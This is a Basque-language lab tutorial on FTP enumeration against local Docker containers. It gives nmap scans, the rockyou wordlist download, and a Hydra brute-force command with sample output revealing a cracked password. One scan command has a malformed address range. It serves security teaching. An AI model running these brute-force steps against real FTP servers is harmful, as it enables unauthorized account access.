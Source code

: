 
# FTP ennumerazioa

Mota honetan, fitxategiak transferitzeko protokoloari (FTP) buruz hitz egingo dugu, eta horri buruzko azterketa nola aplikatu informazioa biltzeko.

FTP protokolo asko erabiltzen da fitxategiak sareetara transferitzeko. FTP zerbitzuaren zerrendatzeak informazio garrantzitsua biltzea dakar, hala nola FTP zerbitzariaren bertsioa, fitxategien baimenen konfigurazioa, erabiltzaileak eta pasahitzak (indar gordineko erasoen edo guessing-en bidez), besteak beste.

Jarraian, gela honetan ukitzen dugun lehen proiekturako esteka duzue:

### Pasahitza duen ftp zerbitzaria ( hacking lab docker-composen jada gehituta)

Docker-FTP-Server: https://github.com/garethflowers/docker-ftp-server

Deskargatzen dugun lehen proiekturako erabiltzen dugun tresnetako bat "Hydra" da. Hydra kode irekiko sartze-probak egiteko tresna bat da, eta pasahitzak babestutako sistemen eta zerbitzuen aurka indar gordineko erasoak egiteko erabiltzen da. Tresna oso pertsonalizagarria da eta sareko protokolo-sorta zabala onartzen du, besteak beste, HTTP, FTP, SSH, Telnet eta SMTP.

FTPrako erabiltzaile gonbidatuak autentifikatzea ahalbidetzen duen edukiontzia hedatzeko erabiltzen ditugun proiektuen artean hurrengoa "metabrainz" en "docker-anon-ftp" proiektua da. Jarraian, proiekturako esteka duzue:

### Pasahitzik gabeko ftp zerbitzaria

Docker-ANON-FTP: https://github.com/metabrainz/docker-anon-ftp

```bash 
docker run -d -p 20-21:20-21 -p 65500-65515:65500-65515 -v /tmp:/var/ftp:ro --network=hacking-lab_pentesting-lab-network metabrainz/docker-anon-ftp 
```

## Pasahitza duen FTP zerbitzaria 

###  Rock you pasahitz dikzionarioa deskargatu 


https://github.com/zacheller/rockyou

```bash
cd
git clone https://github.com/zacheller/rockyou
cd rockyou
mkdir /usr/share/wordlists
tar xC /usr/share/wordlists -f rockyou.txt.tar.gz
```

### FTP zerbitzua aurkitu nmap-ekin

Erabili localhost edo sarea + maskara hurrengo aginduan

```bash
nmap -sCV -p20,21 127.18.0.0\16
```

Honelako erantzunen bat agertu beharko litzateke:
```bash
Nmap scan report for my-ftp-server.hacking-lab_pentesting-lab-network (172.18.0.6)
Host is up (0.000036s latency).

PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 2.0.8 or later
MAC Address: 02:42:AC:12:00:06 (Unknown)
```


### Hydra

```bash
hydra -l user -P rockyou.txt ftp://172.18.0.6 -t 15
```

Mayuskula bada dikzionario bat erabiliko du.

- -l erabiltzailea dakigu
- -L erabiltzailea dikzionario batetik hartuko du
- -P pasahitz dikzionarioa
- -t 15 : 15 thread aldi berean

Honelako erantzun bat agertu beharko litzateke:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-30 12:49:37
[DATA] max 15 tasks per 1 server, overall 15 tasks, 200 login tries (l:1/p:200), ~14 tries per task
[DATA] attacking ftp://172.18.0.6:21/
[21][ftp] host: 172.18.0.6   login: user   password: louise
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-30 12:50:06
```

## Pasahitzik gabeko FTP zerbitzaria

Kasu honetan erabil froga dezakegu zuzenenan Anonymus erabiltzailerarekin edo nmapek eskuragarri duen `ftp-anon` scriptarekin

```bash
nmap --script ftp-anon -p21 172.18.0.2
```

Honelako erantzun bat itzuli beharko luke:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 13:02 UTC
Nmap scan report for f0304f75721e.hacking-lab_pentesting-lab-network (172.18.0.2)
Host is up (0.000037s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```
